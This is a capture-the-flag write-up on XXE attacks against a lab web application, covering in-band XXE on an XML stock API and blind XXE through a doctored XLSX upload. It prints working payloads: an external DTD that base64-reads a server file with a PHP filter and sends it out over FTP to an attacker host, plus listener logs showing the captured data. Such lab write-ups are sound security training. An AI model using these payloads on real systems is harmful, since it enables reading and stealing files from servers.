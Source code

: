 ## Basic XXE:
+ When testing XXE, we will test APIs which use XML.
+ We test the api `http://stock.nahamstore.thm` 
+ Using BurpSuite to cap the request of endpoints:

![](<Images/Pasted image 20250210164922.png>)

+ First we change the method `GET` become `POST` which means "create the product" to see what will happen.

![](<Images/Pasted image 20250210165312.png>)
	--> The message "Missing header X-Token" so we add more header `X-Token` with random value.

![](<Images/Pasted image 20250210165530.png>)
	
	--> That mean X-Token is not valid for the current product so we can fuzz to find the valid parameter is 
	suitable with X-Token.

+ We use the word list `SecLists/Discovery/Web-Content/api/objects.txt` to fuzzing the parameter:

![](<Images/Pasted image 20250210170402.png>)

--> We found the param `xml` which works.
+ We edit the request with XML format and add headers `Content-Type`  `Content-Length` 

![](<Images/Pasted image 20250210171232.png>)
--> We replace tag `<error></error>` with `<X-Token></X-Token>`

![](<Images/Pasted image 20250210171710.png>)

+ Now we can inject payload Entity to exploit XXE:

![](<Images/Pasted image 20250210172322.png>)
------------------------------------------------------------------

## Blind XXE:
+ Access /staff, we've found the page "Timesheet Upload" which used by staff members.
+ This page use to upload Timesheet only format xlsx
	-->We guess this is the vulnerability XXE.
+ Researching and we found the technique that use to exploit XXE in XLSX file:
`https://www.linkedin.com/pulse/exploiting-xxe-vulnerabilities-xlsx-files-guide-denys-spys-sqouf` or `https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/XXE%20Injection#xxe-inside-xlsx-file`

+ We could use the sample.xlsx in https://github.com/BuffaloWill/oxml_xxe/tree/master/samples or create by self.
+ View the structure :
```bash
$ 7z l sample.xlsx
   Date      Time    Attr         Size   Compressed  Name
------------------- ----- ------------ ------------  ------------------------
1980-01-01 00:00:00 .....         1440          364  [Content_Types].xml
1980-01-01 00:00:00 .....          588          245  _rels/.rels
1980-01-01 00:00:00 .....          980          258  xl/_rels/workbook.xml.rels
1980-01-01 00:00:00 .....          653          379  xl/workbook.xml
1980-01-01 00:00:00 .....         7079         1684  xl/theme/theme1.xml
1980-01-01 00:00:00 .....          628          352  xl/worksheets/sheet2.xml
1980-01-01 00:00:00 .....          628          352  xl/worksheets/sheet3.xml
1980-01-01 00:00:00 .....          816          441  xl/worksheets/sheet1.xml
1980-01-01 00:00:00 .....          209          172  xl/sharedStrings.xml
1980-01-01 00:00:00 .....         1260          583  xl/styles.xml
1980-01-01 00:00:00 .....          849          416  docProps/app.xml
1980-01-01 00:00:00 .....          593          320  docProps/core.xml
------------------- ----- ------------ ------------  ------------------------
1980-01-01 00:00:00              15723         5566  12 files
```

+ Extract Excel file:
`7z x -oXXE sample.xlsx`  or `unzip sample.xlsx -d extracted_xlsx
+ Access inside:
```bash
$ cd XXE/
$ ls
'[Content_Types].xml'   docProps   _rels   xl
```

+ Add your blind XXE payload inside `xl/workbook.xml`:
```bash
<?xml version="1.0" encoding="UTF-8" standalone="yes"?>
<!DOCTYPE cdl [<!ELEMENT cdl ANY ><!ENTITY % asd SYSTEM "http://x.x.x.x:8000/xxe.dtd">%asd;%c;]>
<cdl>&rrr;</cdl>
<workbook xmlns="http://schemas.openxmlformats.org/spreadsheetml/2006/main" xmlns:r="http://schemas.openxmlformats.org/officeDocument/2006/relationships">
```

+ Rebuild Excel file:
```
$ cd XXE/
$ 7z u ../sample.xlsx * or unzip -r sample.xlsx *
```
**Note**: If we extract by `7z` or `unzip` when we recompress the file to rebuild, we should use `7z u`  or  `zip -r` for `7z` and `unzip` because they will recompress it the same way and many Excel parsing libraries will fail to recognize it as a valid Excel file.

+ Create a remote DTD will save us the time to rebuild a document each time we want to retrieve a different file. Instead we build the document once and then change the DTD. And using FTP instead of HTTP allows to retrieve much larger files.
```bash
xxe.dtd
<!ENTITY % d SYSTEM "php://filter/convert.base64-encode/resource=/flag.txt">
<!ENTITY % c "<!ENTITY rrr SYSTEM 'ftp://x.x.x.x:2121/%d;'>">
```
**Note**: The first testing, we use `<!ENTITY % d SYSTEM "file:///flag.txt">` but when we run xxeserv to retrieve in the log file, the log file is empty so we use "PHP Wrapper Inside XXE", change `file://`  to  `php://filter/convert.base64-encode/resource=` --> It worked.

+ Serve DTD and receive FTP payload using xxeserv:
```bash
~/xxeserv$ ./xxeserv -o files.log -p 2121 -w -wd public -wp 8000
20xx/0x/0x 16:29:44 [*] File doesn't exist, creating
20xx/0x/0x 16:29:44 [*] Storing session into the file: files.log
20xx/0x/0x 16:29:44 [*] Starting Web Server on 8000 [public]
[*] No certificate files found in directory. Generating new...
[*] UNO Listening...
[*] Certificate files generated
20xx/0x/0x 16:29:44 [*] GO XXE FTP Server - Port:  2121
20xx/0x/0x 16:29:53 [*] Connection Accepted from [10.10.61.194:38146]
20xx/0x/0x 16:29:55 [x] Connection Closed
20xx/0x/0x 16:29:55 [*] Closing FTP Connection
20xx/0x/0x 16:29:55 [*] Connection Accepted from [10.10.61.194:38148]
20xx/0x/0x 16:29:57 [x] Connection Closed
20xx/0x/0x 16:29:57 [*] Closing FTP Connection
```

```bash
~$ sudo python3 -m http.server
[sudo] password for zicco: 
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...-
10.10.61.194 - - [xx/xxx/20xx 16:29:53] "GET /xxe.dtd HTTP/1.0" 200 -
```

+ Read the file log:
```bash
$ cat files.log 
USER:  anonymous
PASS:  anonymous
//e2Q2YjIyY2IzZTM3YmVmMzJkODAwMTA1YjExMTA3ZDhmfQo=
SIZE
MDTM
USER:  anonymous
PASS:  anonymous
SIZE
PASV
```

------------------------------------------------------------------

